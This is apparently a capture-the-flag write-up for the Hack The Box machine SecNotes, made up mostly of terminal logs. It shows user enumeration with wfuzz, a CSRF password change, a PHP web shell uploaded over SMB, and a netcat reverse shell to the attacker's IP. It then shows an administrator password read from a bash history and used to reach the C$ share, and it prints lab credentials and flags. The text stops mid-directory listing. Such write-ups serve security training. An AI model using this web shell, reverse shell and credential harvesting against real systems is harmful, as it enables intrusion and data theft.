#### SecNotes

- [Attacker Info](#attacker-info)
- [Nmap Scan](#nmap-scan)
- [Web Enumeration](#web-enumeration)
- [SMB Enumeration](#smb-enumeration)
- [User Shell](#user-shell)
- [Gaining root](#gaining-root)
- [Exploring bash in Windows](#exploring-bash-in-windows)
- [Root shell using impacket psexec](#root-shell-using-impacket-psexec)
- [SQL Injection](#sql-injection)

###### Attacker Info

```sh
root@kali:~/secnotes# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.0.0.193  netmask 255.255.255.0  broadcast 10.0.0.255
        inet6 fe80::20c:29ff:fe8c:4d61  prefixlen 64  scopeid 0x20<link>
        inet6 2601:5cc:c900:4024:384f:19aa:71d7:f0aa  prefixlen 64  scopeid 0x0<global>
        inet6 2601:5cc:c900:4024::56ed  prefixlen 128  scopeid 0x0<global>
        inet6 2601:5cc:c900:4024:20c:29ff:fe8c:4d61  prefixlen 64  scopeid 0x0<global>
        ether 00:0c:29:8c:4d:61  txqueuelen 1000  (Ethernet)
        RX packets 443417  bytes 669772002 (638.7 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 42758  bytes 2912674 (2.7 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 24  bytes 1272 (1.2 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 24  bytes 1272 (1.2 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.14.9  netmask 255.255.254.0  destination 10.10.14.9
        inet6 dead:beef:2::1007  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::fed4:d228:dc6d:ebac  prefixlen 64  scopeid 0x20<link>
        unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00  txqueuelen 100  (UNSPEC)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 6  bytes 288 (288.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

root@kali:~/secnotes#
```

###### Nmap Scan

```sh
root@kali:~/secnotes# nmap -sC -sV -oA secnotes.nmap 10.10.10.97
Starting Nmap 7.70 ( https://nmap.org ) at 2019-01-20 12:21 EST
Nmap scan report for 10.10.10.97
Host is up (0.035s latency).
Not shown: 998 filtered ports
PORT    STATE SERVICE      VERSION
80/tcp  open  http         Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
| http-title: Secure Notes - Login
|_Requested resource was login.php
445/tcp open  microsoft-ds Windows 10 Enterprise 17134 microsoft-ds (workgroup: HTB)
Service Info: Host: SECNOTES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h44m33s, deviation: 4h37m09s, median: 4m32s
| smb-os-discovery:
|   OS: Windows 10 Enterprise 17134 (Windows 10 Enterprise 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: SECNOTES
|   NetBIOS computer name: SECNOTES\x00
|   Workgroup: HTB\x00
|_  System time: 2019-01-20T09:26:14-08:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2019-01-20 12:26:16
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 52.45 seconds
root@kali:~/secnotes#
```

[`Windows 10 Enterprise 17134`](https://en.wikipedia.org/wiki/Windows_10_version_history)





###### Web Enumeration

```
http://10.10.10.97/login.php
http://10.10.10.97/register.php
```







User enumeration possible



No `CSRF` token



Username enumeration

```sh
root@kali:~/secnotes# wfuzz -c -w /usr/share/seclists/Usernames/Names/names.txt -d "username=FUZZ&password=password" http://10.10.10.97/login.php

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.2.11 - The Web Fuzzer                        *
********************************************************

Target: http://10.10.10.97/login.php
Total requests: 10163

==================================================================
ID	Response   Lines      Word         Chars          Payload
==================================================================

000061:  C=200     34 L	      90 W	   1271 Ch	  "ade"
000007:  C=200     34 L	      90 W	   1275 Ch	  "abagael"
000008:  C=200     34 L	      90 W	   1275 Ch	  "abagail"
000009:  C=200     34 L	      90 W	   1274 Ch	  "abahri"
000010:  C=200     34 L	      90 W	   1273 Ch	  "abbas"
000011:  C=200     34 L	      90 W	   1272 Ch	  "abbe"
000012:  C=200     34 L	      90 W	   1273 Ch	  "abbey"
000013:  C=200     34 L	      90 W	   1272 Ch	  "abbi"
000014:  C=200     34 L	      90 W	   1273 Ch	  "abbie"
000015:  C=200     34 L	      90 W	   1272 Ch	  "abby"
000016:  C=200     34 L	      90 W	   1273 Ch	  "abbye"
000002:  C=200     34 L	      90 W	   1273 Ch	  "aaren"
000062:  C=200     34 L	      90 W	   1272 Ch	  "adel"
000001:  C=200     34 L	      90 W	   1275 Ch	  "aaliyah"
000065:  C=200     34 L	      90 W	   1276 Ch	  "adelaide"
000063:  C=200     34 L	      90 W	   1273 Ch	  "adela"
000064:  C=200     34 L	      90 W	   1276 Ch	  "adelaida"
000066:  C=200     34 L	      90 W	   1273 Ch	  "adele"
000067:  C=200     34 L	      90 W	   1275 Ch	  "adelene"
000068:  C=200     34 L	      90 W	   1276 Ch	  "adelheid"
000069:  C=200     34 L	      90 W	   1274 Ch	  "adelia"
000070:  C=200     34 L	      90 W	   1275 Ch	  "adelice"
000017:  C=200     34 L	      90 W	   1275 Ch	  "abdalla"
000071:  C=200     34 L	      90 W	   1275 Ch	  "adelina"
000073:  C=200     34 L	      90 W	   1275 Ch	  "adeline"
000072:  C=200     34 L	      90 W	   1275 Ch	  "adelind"
000074:  C=200     34 L	      90 W	   1274 Ch	  "adella"
000077:  C=200     34 L	      90 W	   1272 Ch	  "aden"
000075:  C=200     34 L	      90 W	   1274 Ch	  "adelle"
000076:  C=200     34 L	      90 W	   1275 Ch	  "adelynn"
000079:  C=200     34 L	      90 W	   1275 Ch	  "adeniyi"
000080:  C=200     34 L	      90 W	   1272 Ch	  "adey"
000018:  C=200     34 L	      90 W	   1276 Ch	  "abdallah"
000083:  C=200     34 L	      90 W	   1272 Ch	  "adie"
000084:  C=200     34 L	      90 W	   1273 Ch	  "adina"
000085:  C=200     34 L	      90 W	   1274 Ch	  "aditya"
000086:  C=200     34 L	      90 W	   1273 Ch	  "admin"
000019:  C=200     34 L	      90 W	   1273 Ch	  "abdul"
```



```sh
root@kali:~/secnotes# wfuzz -c -w /usr/share/seclists/Usernames/Names/names.txt -d "username=FUZZ&password=password" --hs "No account found with that username." http://10.10.10.97/login.php

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.2.11 - The Web Fuzzer                        *
********************************************************

Target: http://10.10.10.97/login.php
Total requests: 10163

==================================================================
ID	Response   Lines      Word         Chars          Payload
==================================================================

009498:  C=200     34 L	      91 W	   1276 Ch	  "tyler"

Total time: 99.37472
Processed Requests: 10163
Filtered Requests: 10162
Requests/sec.: 102.2694

root@kali:~/secnotes#
```





Script injection possible







```sh
root@kali:~/secnotes# nc -nlvp 9001
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from 10.10.10.97.
Ncat: Connection from 10.10.10.97:60098.
GET / HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.17134.228
Host: 10.10.14.9:9001
Connection: Keep-Alive

root@kali:~/secnotes#
```

Changing `tyler` password using `CSRF`





```
http://10.10.10.97/change_pass.php?password=pass123&confirm_password=pass123&submit=submit
```













```
\\secnotes.htb\new-site
tyler / 92g!mA8BGjOirkL%OG*&
```

###### SMB Enumeration

```sh
root@kali:~/secnotes# smbmap -u tyler -p '92g!mA8BGjOirkL%OG*&' -H 10.10.10.97
[+] Finding open SMB ports....
[+] User SMB session establishd on 10.10.10.97...
[+] IP: 10.10.10.97:445	Name: 10.10.10.97
	Disk                                                  	Permissions
	----                                                  	-----------
	ADMIN$                                            	NO ACCESS
	C$                                                	NO ACCESS
	IPC$                                              	READ ONLY
	new-site                                          	READ, WRITE
root@kali:~/secnotes#
```

```sh
root@kali:~/secnotes# smbclient -U 'tyler%92g!mA8BGjOirkL%OG*&' \\\\10.10.10.97\\new-site
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sun Jan 20 13:14:00 2019
  ..                                  D        0  Sun Jan 20 13:14:00 2019
  iisstart.htm                        A      696  Thu Jun 21 11:26:03 2018
  iisstart.png                        A    98757  Thu Jun 21 11:26:03 2018
  Microsoft                           D        0  Sat Jan 19 17:11:50 2019

		12978687 blocks of size 4096. 8113910 blocks available
smb: \>
```

```sh
root@kali:~/secnotes# nmap -v --max-retries=0 -T5 -p- 10.10.10.97
Starting Nmap 7.70 ( https://nmap.org ) at 2019-01-20 13:11 EST
Initiating Ping Scan at 13:11
Scanning 10.10.10.97 [4 ports]
Completed Ping Scan at 13:11, 0.09s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 13:11
Completed Parallel DNS resolution of 1 host. at 13:11, 0.02s elapsed
Initiating SYN Stealth Scan at 13:11
Scanning 10.10.10.97 [65535 ports]
Warning: 10.10.10.97 giving up on port because retransmission cap hit (0).
Discovered open port 445/tcp on 10.10.10.97
Discovered open port 80/tcp on 10.10.10.97
Discovered open port 8808/tcp on 10.10.10.97
Completed SYN Stealth Scan at 13:12, 47.87s elapsed (65535 total ports)
Nmap scan report for 10.10.10.97
Host is up (0.045s latency).
Not shown: 65532 filtered ports
PORT     STATE SERVICE
80/tcp   open  http
445/tcp  open  microsoft-ds
8808/tcp open  ssports-bcast

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 48.17 seconds
           Raw packets sent: 65574 (2.885MB) | Rcvd: 49 (2.820KB)
root@kali:~/secnotes#
```

```
http://10.10.10.97:8808/
```



```sh
root@kali:~/secnotes# nano shell.php
```

```php
<?php system($_REQUEST['cmd']) ?>
```

```sh
root@kali:~/secnotes# smbclient -U 'tyler%92g!mA8BGjOirkL%OG*&' \\\\10.10.10.97\\new-site
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sun Jan 20 13:14:00 2019
  ..                                  D        0  Sun Jan 20 13:14:00 2019
  iisstart.htm                        A      696  Thu Jun 21 11:26:03 2018
  iisstart.png                        A    98757  Thu Jun 21 11:26:03 2018
  Microsoft                           D        0  Sat Jan 19 17:11:50 2019

		12978687 blocks of size 4096. 8113910 blocks available
smb: \> put shell.php
putting file shell.php as \shell.php (0.3 kb/s) (average 0.3 kb/s)
smb: \> dir
  .                                   D        0  Sun Jan 20 13:19:16 2019
  ..                                  D        0  Sun Jan 20 13:19:16 2019
  iisstart.htm                        A      696  Thu Jun 21 11:26:03 2018
  iisstart.png                        A    98757  Thu Jun 21 11:26:03 2018
  Microsoft                           D        0  Sat Jan 19 17:11:50 2019
  shell.php                           A       34  Sun Jan 20 13:19:16 2019

		12978687 blocks of size 4096. 8110308 blocks available
smb: \>
```

```
http://10.10.10.97:8808/shell.php?cmd=whoami
```



[`netcat`](https://eternallybored.org/misc/netcat/)



```sh
root@kali:~/secnotes# unzip netcat-win32-1.12.zip -d netcat
Archive:  netcat-win32-1.12.zip
  inflating: netcat/doexec.c
  inflating: netcat/getopt.c
  inflating: netcat/netcat.c
  inflating: netcat/generic.h
  inflating: netcat/getopt.h
  inflating: netcat/hobbit.txt
  inflating: netcat/license.txt
  inflating: netcat/readme.txt
  inflating: netcat/Makefile
  inflating: netcat/nc.exe
  inflating: netcat/nc64.exe
root@kali:~/secnotes#
```

```sh
root@kali:~/secnotes# cp netcat/nc64.exe .
```

```sh
root@kali:~/secnotes# smbclient -U 'tyler%92g!mA8BGjOirkL%OG*&' \\\\10.10.10.97\\new-site
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sun Jan 20 13:14:00 2019
  ..                                  D        0  Sun Jan 20 13:14:00 2019
  iisstart.htm                        A      696  Thu Jun 21 11:26:03 2018
  iisstart.png                        A    98757  Thu Jun 21 11:26:03 2018
  Microsoft                           D        0  Sat Jan 19 17:11:50 2019

		12978687 blocks of size 4096. 8113910 blocks available
smb: \> put shell.php
putting file shell.php as \shell.php (0.3 kb/s) (average 0.3 kb/s)
smb: \> dir
  .                                   D        0  Sun Jan 20 13:19:16 2019
  ..                                  D        0  Sun Jan 20 13:19:16 2019
  iisstart.htm                        A      696  Thu Jun 21 11:26:03 2018
  iisstart.png                        A    98757  Thu Jun 21 11:26:03 2018
  Microsoft                           D        0  Sat Jan 19 17:11:50 2019
  shell.php                           A       34  Sun Jan 20 13:19:16 2019

		12978687 blocks of size 4096. 8110308 blocks available
smb: \> put nc64.exe
putting file nc64.exe as \nc64.exe (169.4 kb/s) (average 115.2 kb/s)
smb: \> dir
  .                                   D        0  Sun Jan 20 13:25:12 2019
  ..                                  D        0  Sun Jan 20 13:25:12 2019
  iisstart.htm                        A      696  Thu Jun 21 11:26:03 2018
  iisstart.png                        A    98757  Thu Jun 21 11:26:03 2018
  Microsoft                           D        0  Sat Jan 19 17:11:50 2019
  nc64.exe                            A    45272  Sun Jan 20 13:25:12 2019
  shell.php                           A       34  Sun Jan 20 13:19:16 2019

		12978687 blocks of size 4096. 8110409 blocks available
smb: \>
```

###### User Shell

```
http://10.10.10.97:8808/shell.php?cmd=nc64.exe 10.10.14.9 9001 -e powershell
```



```sh
root@kali:~/secnotes# nc -nlvp 9001
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from 10.10.10.97.
Ncat: Connection from 10.10.10.97:60116.
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\inetpub\new-site> whoami
whoami
secnotes\tyler
PS C:\inetpub\new-site> whoami /all
whoami /all

USER INFORMATION
----------------

User Name      SID
============== ==============================================
secnotes\tyler S-1-5-21-1791094074-1363918840-4199337083-1002


GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes
====================================== ================ ============ ==================================================
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                   Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account             Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication       Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level Label            S-1-16-8192


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================== =======
SeShutdownPrivilege           Shut down the system                 Enabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeUndockPrivilege             Remove computer from docking station Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Enabled
SeTimeZonePrivilege           Change the time zone                 Enabled

PS C:\inetpub\new-site> cd \
cd \
PS C:\> cd Users
cd Users
PS C:\Users> dir
dir


    Directory: C:\Users


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        6/22/2018   4:44 PM                Administrator
d-----        6/21/2018   2:55 PM                DefaultAppPool
d-----        6/21/2018   1:23 PM                new
d-----        6/21/2018   3:00 PM                newsite
d-r---        6/21/2018   2:12 PM                Public
d-----        8/19/2018  10:54 AM                tyler
d-----        6/21/2018   2:55 PM                wayne


PS C:\Users> cd tyler
cd tyler
PS C:\Users\tyler> cd Desktop
cd Desktop
PS C:\Users\tyler\Desktop> dir
dir


    Directory: C:\Users\tyler\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        6/22/2018   3:09 AM           1293 bash.lnk
-a----        4/11/2018   4:34 PM           1142 Command Prompt.lnk
-a----        4/11/2018   4:34 PM            407 File Explorer.lnk
-a----        6/21/2018   5:50 PM           1417 Microsoft Edge.lnk
-a----        6/21/2018   9:17 AM           1110 Notepad++.lnk
-a----        8/19/2018   9:25 AM             34 user.txt
-a----        8/19/2018  10:59 AM           2494 Windows PowerShell.lnk


PS C:\Users\tyler\Desktop> type user.txt
type user.txt
6fa7556968052a83183fb8099cb904f3
PS C:\Users\tyler\Desktop>
```

###### Gaining root

```sh
PS C:\Users\tyler\Desktop> Get-Content bash.lnk
Get-Content bash.lnk
LAF wZ��O�cV�	Ov(�O�	O�9P�OD �:i�+00?/C:\V1�LIWindows@	�_<L`"�LI.h3"�&WindowsZ1�L<System32B	�_<L`"�L<.p�kTSystem32Z2�OLP� bash.exeB	�_<L<��LU.sY�SaYbash.exeK-JU�YoC:\Windows\System32\bash.exe"..\..\..\Windows\System32\bash.exeC:\Windows\System32�%Y
                                                        �wNA�]N�D.�rQ~�Y`�XsecnotesxI<sAA^>a?Yo�:u�>'E/,xI<sAA^>a?Yo�:u�>'E/,=	�Y1SPS�0�UC%GoDsf"=dSystem32 (C:\Windows)?1SPS�SXF�L8C��"&~mIq/S-1-5-21-1791094074-1363918840-4199337083-1002c1SPS0�%�G��`Oz��%
	bash.exe@EoZ��O
                       �)
                         Application@v(�O�	Oi1SPS�jc(=O�AOUDMC:\Windows\System32\bash.exe91SPS�mD-?pHH@.=xOhHA(�bP
PS C:\Users\tyler\Desktop>

PS C:\Users\tyler\Desktop> bash
bash
mesg: ttyname failed: Inappropriate ioctl for device

cd /
ls -lah
total 88K
drwxr-xr-x  1 root root 512 Jun 21  2018 .
drwxr-xr-x  1 root root 512 Jun 21  2018 ..
drwxr-xr-x  1 root root 512 Jun 21  2018 bin
drwxr-xr-x  1 root root 512 Apr 25  2018 boot
drwxr-xr-x  1 root root 512 Jan 20 10:31 dev
drwxr-xr-x  1 root root 512 Jun 22  2018 etc
drwxr-xr-x  1 root root 512 Apr 24  2018 home
-rwxr-xr-x  1 root root 86K Dec 31  1969 init
drwxr-xr-x  1 root root 512 Apr 25  2018 lib
drwxr-xr-x  1 root root 512 Apr 25  2018 lib64
drwxr-xr-x  1 root root 512 Apr 25  2018 media
drwxr-xr-x  1 root root 512 Jun 21  2018 mnt
drwxr-xr-x  1 root root 512 Apr 25  2018 opt
dr-xr-xr-x  9 root root   0 Jan 20 10:31 proc
drwx------  1 root root 512 Jun 22  2018 root
drwxr-xr-x  1 root root 512 Jan 20 10:31 run
drwxr-xr-x  1 root root 512 Jun 22  2018 sbin
drwxr-xr-x  1 root root 512 Apr 16  2018 snap
drwxr-xr-x  1 root root 512 Apr 25  2018 srv
dr-xr-xr-x 12 root root   0 Jan 20 10:31 sys
drwxrwxrwt  1 root root 512 Jun 22  2018 tmp
drwxr-xr-x  1 root root 512 Apr 25  2018 usr
drwxr-xr-x  1 root root 512 Apr 25  2018 var
cd /root
ls -lah
total 8.0K
drwx------ 1 root root  512 Jun 22  2018 .
drwxr-xr-x 1 root root  512 Jun 21  2018 ..
---------- 1 root root  398 Jun 22  2018 .bash_history
-rw-r--r-- 1 root root 3.1K Jun 22  2018 .bashrc
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
drwxrwxrwx 1 root root  512 Jun 22  2018 filesystem
cat .bash_history
cd /mnt/c/
ls
cd Users/
cd /
cd ~
ls
pwd
mkdir filesystem
mount //127.0.0.1/c$ filesystem/
sudo apt install cifs-utils
mount //127.0.0.1/c$ filesystem/
mount //127.0.0.1/c$ filesystem/ -o user=administrator
cat /proc/filesystems
sudo modprobe cifs
smbclient
apt install smbclient
smbclient
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$
> .bash_history
less .bash_history
exit
```

```sh
root@kali:~/secnotes# smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\10.10.10.97\\c$
Try "help" to get a list of possible commands.
smb: \> dir
  $Recycle.Bin                      DHS        0  Thu Jun 21 18:24:29 2018
  bootmgr                          AHSR   395268  Fri Jul 10 07:00:31 2015
  BOOTNXT                           AHS        1  Fri Jul 10 07:00:31 2015
  Distros                             D        0  Thu Jun 21 18:07:52 2018
  Documents and Settings            DHS        0  Fri Jul 10 08:21:38 2015
  inetpub                             D        0  Thu Jun 21 21:47:33 2018
  Microsoft                           D        0  Fri Jun 22 17:09:10 2018
  pagefile.sys                      AHS 738197504  Sat Jan 19 17:06:43 2019
  PerfLogs                            D        0  Wed Apr 11 19:38:20 2018
  php7                                D        0  Thu Jun 21 11:15:24 2018
  Program Files                      DR        0  Sun Aug 19 17:56:49 2018
  Program Files (x86)                DR        0  Thu Jun 21 21:47:33 2018
  ProgramData                        DH        0  Sun Aug 19 17:56:49 2018
  Recovery                          DHS        0  Thu Jun 21 17:52:17 2018
  swapfile.sys                      AHS 16777216  Sat Jan 19 17:06:43 2019
  System Volume Information         DHS        0  Thu Jun 21 17:53:13 2018
  Ubuntu.zip                          A 201749452  Thu Jun 21 18:07:28 2018
  Users                              DR        0  Thu Jun 21 18:00:39 2018
  Windows                             D        0  Sun Aug 19 14:15:49 2018

		12978687 blocks of size 4096. 8110394 blocks available
smb: \> cd Users
smb: \Users\> dir
  .                                  DR        0  Thu Jun 21 18:00:39 2018
  ..                                 DR        0  Thu Jun 21 18:00:39 2018
  Administrator                       D        0  Fri Jun 22 19:44:33 2018
  All Users                         DHS        0  Wed Apr 11 19:45:03 2018
  Default                           DHR        0  Thu Jun 21 17:52:17 2018
  Default User                      DHS        0  Wed Apr 11 19:45:03 2018
  DefaultAppPool                      D        0  Thu Jun 21 17:55:22 2018
  desktop.ini                       AHS      174  Wed Apr 11 19:36:38 2018
  new                                 D        0  Thu Jun 21 16:23:17 2018
  newsite                             D        0  Thu Jun 21 18:00:40 2018
  Public                             DR        0  Thu Jun 21 17:12:08 2018
  tyler                               D        0  Sun Aug 19 13:54:37 2018
  wayne                               D        0  Thu Jun 21 17:55:26 2018

		12978687 blocks of size 4096. 8110394 blocks available
smb: \Users\> cd Administrator
smb: \Users\Administrator\> dir
  .                                   D        0  Fri Jun 22 19:44:33 2018
  ..                                  D        0  Fri Jun 22 19:44:33 2018
  3D Objects                         DR        0  Sun Aug 19 13:01:17 2018
  AppData                            DH        0  Thu Jun 21 20:49:45 2018
  Application Data                  DHS        0  Thu Jun 21 20:49:32 2018
  Contacts                           DR        0  Sun Aug 19 13:01:17 2018
  Cookies                           DHS        0  Thu Jun 21 20:49:32 2018
  Desktop                            DR        0  Sun Aug 19 13:01:17 2018
  Documents                          DR        0  Sun Aug 19 13:01:17 2018
  Downloads                          DR        0  Sun Aug 19 13:01:17 2018
  Favorites                          DR        0  Sun Aug 19 13:01:17 2018
  Links                              DR        0  Sun Aug 19 13:01:18 2018
  Local Settings                    DHS        0  Thu Jun 21 20:49:32 2018
  Music                              DR        0  Sun Aug 19 13:01:17 2018
  My Documents                      DHS        0  Thu Jun 21 20:49:32 2018
  NetHood                           DHS        0  Thu Jun 21 20:49:32 2018
  NTUSER.DAT                         AH  1310720  Sat Jan 19 17:18:37 2019
  ntuser.dat.LOG1                   AHS        0  Thu Jun 21 20:49:32 2018
  ntuser.dat.LOG2                   AHS        0  Thu Jun 21 20:49:32 2018
  NTUSER.DAT{3eb2f144-75be-11e8-91df-080027cb2f82}.TM.blf    AHS    65536  Thu Jun 21 20:49:32 2018
  NTUSER.DAT{3eb2f144-75be-11e8-91df-080027cb2f82}.TMContainer00000000000000000001.regtrans-ms    AHS   524288  Thu Jun 21 20:49:32 2018
  NTUSER.DAT{3eb2f144-75be-11e8-91df-080027cb2f82}.TMContainer00000000000000000002.regtrans-ms    AHS   524288  Thu Jun 21 20:49:32 2018
  ntuser.ini                         HS       20  Fri Jun 22 19:44:28 2018
  OneDrive                           DR        0  Thu Jun 21 16:01:39 2018
  Pictures                           DR        0  Sun Aug 19 13:01:17 2018
  PrintHood                         DHS        0  Thu Jun 21 20:49:32 2018
  Recent                            DHS        0  Thu Jun 21 20:49:32 2018
  Saved Games                        DR        0  Sun Aug 19 13:01:18 2018
  Searches                           DR        0  Sun Aug 19 13:01:17 2018
  SendTo                            DHS        0  Thu Jun 21 20:49:32 2018
  Start Menu                        DHS        0  Thu Jun 21 20:49:32 2018
  Templates                         DHS        0  Thu Jun 21 20:49:32 2018
  Videos                             DR        0  Sun Aug 19 13:01:17 2018

		12978687 blocks of size 4096. 8110394 blocks available
smb: \Users\Administrator\> cd Desktop
smb: \Users\Administrator\Desktop\> dir
  .                                  DR        0  Sun Aug 19 13:01:17 2018
  ..                                 DR        0  Sun Aug 19 13:01:17 2018
  desktop.ini                       AHS      282  Sun Aug 19 13:01:17 2018
  Microsoft Edge.lnk                  A     1417  Fri Jun 22 19:45:06 2018
  root.txt                            A       34  Sun Aug 19 13:03:54 2018

		12978687 blocks of size 4096. 8110394 blocks available
smb: \Users\Administrator\Desktop\> get root.txt
getting file \Users\Administrator\Desktop\root.txt of size 34 as root.txt (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
smb: \Users\Administrator\Desktop\>
```

```sh
root@kali:~/secnotes# cat root.txt
7250cde1cab0bbd93fc1edbdc83d447b
root@kali:~/secnotes#
```

###### Exploring bash in Windows

```sh
smb: \Users\> cd tyler
smb: \Users\tyler\> cd appdata
smb: \Users\tyler\appdata\> dir
  .                                  DH        0  Thu Jun 21 20:49:53 2018
  ..                                 DH        0  Thu Jun 21 20:49:53 2018
  Local                               D        0  Fri Jun 22 06:57:19 2018
  LocalLow                            D        0  Thu Jun 21 12:40:17 2018
  Roaming                             D        0  Thu Jun 21 20:49:53 2018

		12978687 blocks of size 4096. 8110393 blocks available
smb: \Users\tyler\appdata\> cd local
smb: \Users\tyler\appdata\local\> dir
  .                                   D        0  Fri Jun 22 06:57:19 2018
  ..                                  D        0  Fri Jun 22 06:57:19 2018
  Application Data                  DHS        0  Thu Jun 21 20:49:32 2018
  Comms                               D        0  Thu Jun 21 20:50:00 2018
  ConnectedDevicesPlatform            D        0  Thu Jun 21 20:50:16 2018
  DBG                                 D        0  Thu Jun 21 21:17:16 2018
  History                           DHS        0  Thu Jun 21 20:49:32 2018
  IconCache.db                       AH    29980  Sat Aug 25 16:15:55 2018
  Microsoft                           D        0  Sun Aug 19 12:55:50 2018
  MicrosoftEdge                       D        0  Thu Jun 21 12:44:24 2018
  Microsoft_Corporation               D        0  Thu Jun 21 12:42:49 2018
  Notepad++                           D        0  Thu Jun 21 12:42:52 2018
  Packages                            D        0  Thu Jun 21 21:06:40 2018
  PlaceholderTileLogoFolder           D        0  Thu Jun 21 21:00:24 2018
  Publishers                          D        0  Thu Jun 21 11:41:34 2018
  Temp                                D        0  Sat Jan 19 18:17:38 2019
  Temporary Internet Files          DHS        0  Thu Jun 21 20:49:32 2018
  TileDataLayer                       D        0  Thu Jun 21 11:41:22 2018
  VirtualStore                        D        0  Thu Jun 21 11:41:23 2018

		12978687 blocks of size 4096. 8110393 blocks available
smb: \Users\tyler\appdata\local\> cd Packages
smb: \Users\tyler\appdata\local\Packages\> dir
  .                                   D        0  Thu Jun 21 21:06:40 2018
  ..                                  D        0  Thu Jun 21 21:06:40 2018
  1527c705-839a-4832-9118-54d4Bd6a0c89_cw5n1h2txyewy      D        0  Thu Jun 21 21:06:24 2018
  ActiveSync                          D        0  Thu Jun 21 20:51:57 2018
  c5e2524a-ea46-4f67-841f-6a9465d9d515_cw5n1h2txyewy      D        0  Thu Jun 21 21:06:24 2018
  CanonicalGroupLimited.Ubuntu18.04onWindows_79rhkp1fndgsc      D        0  Thu Jun 21 21:00:23 2018
  E2A4F912-2574-4A75-9BB0-0D023378592B_cw5n1h2txyewy      D        0  Thu Jun 21 21:06:25 2018
  F46D4000-FD22-4DB4-AC8E-4E1DDDE828FE_cw5n1h2txyewy      D        0  Thu Jun 21 21:06:25 2018
  InputApp_cw5n1h2txyewy              D        0  Thu Jun 21 21:06:26 2018
  Microsoft.3DBuilder_8wekyb3d8bbwe      D        0  Thu Jun 21 21:06:46 2018
  Microsoft.AAD.BrokerPlugin_cw5n1h2txyewy      D        0  Thu Jun 21 20:49:59 2018
  Microsoft.AccountsControl_cw5n1h2txyewy      D        0  Thu Jun 21 21:06:26 2018
  Microsoft.Advertising.Xaml_8wekyb3d8bbwe      D        0  Thu Jun 21 20:50:05 2018
  Microsoft.Appconnector_8wekyb3d8bbwe      D        0  Thu Jun 21 21:06:45 2018
  Microsoft.AsyncTextService_8wekyb3d8bbwe      D        0  Thu Jun 21 21:06:22 2018
  Microsoft.BingFinance_8wekyb3d8bbwe      D        0  Thu Jun 21 20:57:48 2018
  Microsoft.BingNews_8wekyb3d8bbwe      D        0  Thu Jun 21 20:57:44 2018
  Microsoft.BingSports_8wekyb3d8bbwe      D        0  Thu Jun 21 20:57:40 2018
  Microsoft.BingWeather_8wekyb3d8bbwe      D        0  Thu Jun 21 20:57:00 2018
  Microsoft.BioEnrollment_cw5n1h2txyewy      D        0  Thu Jun 21 21:06:23 2018
